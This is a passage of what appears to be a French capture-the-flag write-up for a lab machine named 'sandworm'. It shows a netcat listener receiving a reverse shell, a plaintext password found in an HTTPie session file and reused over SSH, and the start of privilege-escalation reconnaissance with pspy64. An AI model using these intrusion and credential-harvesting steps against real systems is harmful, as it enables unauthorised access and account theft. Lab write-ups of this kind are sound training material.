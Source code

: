 ```console
└─$ nc -lvnp 4444
/usr/local/sbin/lesspipe: 1: dirname: not found
atlas@sandworm:/var/www/html/SSA$ cd /home
atlas@sandworm:/home$ id
    uid=1000(atlas) gid=1000(atlas) groups=1000(atlas)
atlas@sandworm:/home$ ls
    atlas
    silentobserver
```
On est connecté en atlas, et on voit qu'il y a un autre utilisateur (silentobserver).

## Atlas &rarr; silentobserver
En regardant les fichers et dossiers dans le répertoire courant, on voit un dossier `.config`.

En parcourant ce dossier, on se retrouve à trouver un fichier `admin.json` contenant des credentials pour silentobserver, qui peuvent être testé en ssh.

```console
atlas@sandworm:~/.config/httpie/sessions/localhost_5000$ cat admin.json
cat admin.json
{
    "__meta__": {
        "about": "HTTPie session file",
        "help": "https://httpie.io/docs#sessions",
        "httpie": "2.6.0"
    },
    "auth": {
        "password": "quietLiketheWind22",
        "type": null,
        "username": "silentobserver"
    },
    "cookies": {
        "session": {
            "expires": null,
            "path": "/",
            "secure": false,
            "value": "eyJfZmxhc2hlcyI6W3siIHQiOlsibWVzc2FnZSIsIkludmFsaWQgY3JlZGVudGlhbHMuIl19XX0.Y-I86w.JbELpZIwyATpR58qg1MGJsd6FkA"
        }
    },
    "headers": {
        "Accept": "application/json, */*;q=0.5"
    }
}
```

On essaye de les utiliser en tant que credentials pour ssh et on obtient le flag user.

## Escalade de privilège

En lançant `pspy64` et la commande `ps aux`, on voit un processus non conventionnel 
```console
2023/11/07 17:25:23 CMD: UID=1000 PID=1202   | /usr/local/bin/firejail --profile=webapp flask run 
```
